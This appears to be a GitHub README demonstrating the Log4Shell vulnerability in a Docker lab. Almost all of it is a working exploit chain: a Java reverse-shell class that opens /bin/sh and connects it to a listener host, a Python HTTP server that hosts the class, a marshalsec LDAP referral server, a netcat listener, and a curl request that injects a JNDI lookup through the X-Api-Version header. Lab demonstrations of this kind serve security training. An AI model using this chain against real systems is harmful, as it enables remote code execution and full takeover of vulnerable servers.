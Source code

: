 # log4jshell
log4j setup demonstration


# Setting up docker and running vulnerable web application on docker container
Install docker in kali linux

Then download the below repository

```
sudo git clone https://github.com/christophetd/log4shell-vulnerable-app.git
```

Then the run the below commands to start vulnerable web application on port 8080
```
sudo docker build . -t vulnerable-app
```
```
sudo docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
# Creating payload and setting up python server

Use below java code and save it as Exploit.java

Change the host and port details as you setup for nc listner

```javascript
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

  public Exploit() throws Exception {
    String host="%s";
    int port=%s;
    String cmd="/bin/sh";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s=new Socket(host,port);
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
    while(!s.isClosed()) {
      while(pi.available()>0)
        so.write(pi.read());
      while(pe.available()>0)
        so.write(pe.read());
      while(si.available()>0)
        po.write(si.read());
      so.flush();
      po.flush();
      Thread.sleep(50);
      try {
        p.exitValue();
        break;
      }
      catch (Exception e){
      }
    };
    p.destroy();
    s.close();
  }
}
```

Run the below command to build Exploit.class

Install javac package with below command
```
sudo apt install default-jdk
```
```
sudo javac Exploit.java -source 8 -target 8
```
```
sudo python3 -m http.server 8888
```
# Setting up LDAP server
```
sudo git clone https://github.com/mbechler/marshalsec.git
```
```
sudo mvn package -DskipTests
```
```
cd target
```
```
sudo java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Exploit"
```
setup netcat listner
```
sudo nc -lvp 9999
```
# will execute below payload to get a shell
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Exploit\}
```
